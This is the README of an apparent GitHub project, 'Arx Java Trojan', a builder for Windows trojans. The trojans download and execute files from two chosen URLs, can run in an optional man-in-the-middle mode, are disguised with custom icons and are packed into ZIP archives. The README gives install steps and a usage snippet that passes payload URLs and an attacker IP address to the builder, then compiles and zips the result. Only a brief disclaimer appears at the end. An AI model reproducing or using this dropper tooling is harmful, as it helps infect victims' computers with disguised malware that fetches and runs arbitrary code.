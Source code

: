 # Arx Java Trojan

This project is designed to create a Trojan software that can download and execute files from specified URLs. It is developed in Java and compiled to run in a Windows environment using AutoIt.

## Features

- Ability to download and execute files from two URLs.
- Optional creation of a temporary file for man-in-the-middle (MITM) attacks.
- Icon customization feature to add a specific icon to the compiled file.
- Packaging of the generated file into a ZIP archive.

## Requirements

- Java JDK
- [Wine](https://www.winehq.org/) (to run Windows applications)
- [AutoIt](https://www.autoitscript.com/site/autoit/downloads/) and the `Aut2exe` tool

## Installation

1. **Install Requirements:**
   - Install Java JDK and Wine on your system.
   - Download and install AutoIt, noting the path to `Aut2exe`.

2. **Clone the Project:**
   ```bash
   git clone https://github.com/username/trojan-generator.git
   cd trojan-generator

3. **Prepare Necessary Files:**
   Place the appropriate icon files in the icons directory.



# Usage

You can use the Trojan class to create a Trojan. Below is an example:

`
Trojan trojan = new Trojan("http://example.com/file1.exe", "http://example.com/file2.exe", "path/to/icon.ico", "outputFile.exe", "your.ip.address");
trojan.create(true); // Set to true for MITM mode
trojan.compile(); // Compile the AutoIt code
trojan.zip("outputFile.exe"); // Create a ZIP archive
`
# Notes

Ensure that you have permission to download and execute files from the specified URLs.

Use this project responsibly and in compliance with applicable laws and regulations.
